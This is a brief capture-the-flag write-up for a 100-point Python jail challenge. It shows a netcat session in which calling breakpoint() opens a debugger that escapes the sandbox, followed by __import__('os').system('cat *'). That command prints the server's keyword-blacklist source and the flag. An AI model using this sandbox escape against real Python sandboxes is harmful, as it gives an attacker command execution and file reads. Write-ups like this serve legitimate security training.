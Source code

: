 # jail/Baby's First Pyjail
`Points: 100`

### Description
```
@windex told me that jails should be sourceless. So no source for you.

Author: SteakEnthusiast

nc 35.226.249.45 5000
```

## Solve

```shell
~ % nc 35.226.249.45 5000
breakpoint()
--Return--
<string>(1)<module>()->None
(Pdb) __import__('os').system('cat *')
blacklist = ["import", "exec", "eval", "os","open","read","system","module","write", "."]

while True:
    print(">>>", end=" ")
    try:
        cmd = input()
        for i in blacklist:
            if i in cmd:
                raise Exception("try harder")
        exec(cmd)
    except Exception as e:
        print(e)
uoftctf{you_got_out_of_jail_free}
```

ez win hahaaaaaa